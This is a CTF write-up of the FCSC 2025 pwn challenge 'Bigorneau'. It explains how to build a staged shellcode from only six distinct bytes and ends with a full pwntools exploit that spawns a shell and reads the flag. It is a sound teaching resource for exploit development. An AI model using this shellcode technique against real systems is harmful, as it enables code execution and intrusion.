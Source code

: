 +++
title = "FCSC 2025 | Bigorneau"
+++
# [Pwn] Bigorneau |  FCSC 2025 

* [1. Checksec](#checksecs)
* [2. Writeup](#writeup)
* [3. Full exploit](#full-exploit)

## Checksecs
```
[*] '/home/botman/Documents/challenges/FCSC/bigorneau/bigorneau'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

## TL;DR
Constraints: 6 different bytes

Solution:
- Simple read shellcode into the stack
- Use only push/pop instructions to fill `rsi`/`rdx`
- Fill `rdx` using bytes already present in the shellcode

## Writeup

This challenge was fairly easy. The only constraint for our shellcode was to use **only 6 different bytes**. Instead of using a classical `execve` shellcode, I developed a simple shellcode with a `read` syscall that allowed me to write onto the stack and then execute the real `execve` shellcode.

I started with a "normal" shellcode, which looked like this:
```asm
push rsp
mov rsi, rsp
mov rdx, shellcode_len
syscall
```

> <span style="color:#316dca">**ⓘ NOTES**</span>
>
> As you can see, I only set `rsi` and `rdx`, as `rax` was already `0x0` ([read syscall](https://x64.syscall.sh/)) thanks to the preface added by `bigorneau.py`.

Since the objective was to use as few different bytes as possible, I removed all the `mov` instructions (which have large opcodes) and replaced them with `push`/`pop` instructions:
```asm
push rsp
push rsp
pop rsi
push shellcode_len
pop rdx
syscall
```

<div style="page-break-after: always;"></div>

At this point, it was almost done. The only problem was the `shellcode_len` value. I replaced it with values already present in the shellcode to avoid introducing new bytes, obtaining:
```asm
push rsp
push rsp
pop rsi
push 0x0f050f05
pop rdx
syscall
```

> <span style="color:#316dca">**ⓘ NOTES**</span>
>
> If I had pushed `0x100` onto the stack, the shellcode would have looked like `0x54545e68000100005a0f05`, introducing two extra bytes `0x0` and `0x1`. By reusing the existing `0xf` and `0x5` bytes, I wrote `push 0x0f050f05`, resulting in the shellcode `0x54545e68050f050f5a0f05`.

Finally, I wrote a small script to send the first-stage shellcode followed by the real `execve` shellcode with a little padding to reach `rip` and boom, pwned:

## Full exploit
```python
from pwn import *

CHALL = "bigorneau.py"

def exploit(io, elf):
    context.update(arch='x86_64')
    shellcode = '''
    push rsp
    push rsp
    pop rsi
    push 0x0f050f05
    pop rdx
    syscall
    '''
    shellcode = bytes(asm(shellcode))

    io.info('shellcode: ' + hex(int.from_bytes(shellcode)))
    io.info('set: %s : %i' % (', '.join([hex(i) for i in set(shellcode)]), len(set(shellcode))))

    io.sendlineafter(b':\n', hex(int.from_bytes(shellcode))[2:].encode())
    io.sendline(b'A'*104 + bytes(asm(shellcraft.sh())))
    io.sendline(b'cat flag.txt')
    flag = io.recvline().decode()
    return flag
```

[download here](/exploits/bigorneau.py)

**Written by *0xB0tm4n***
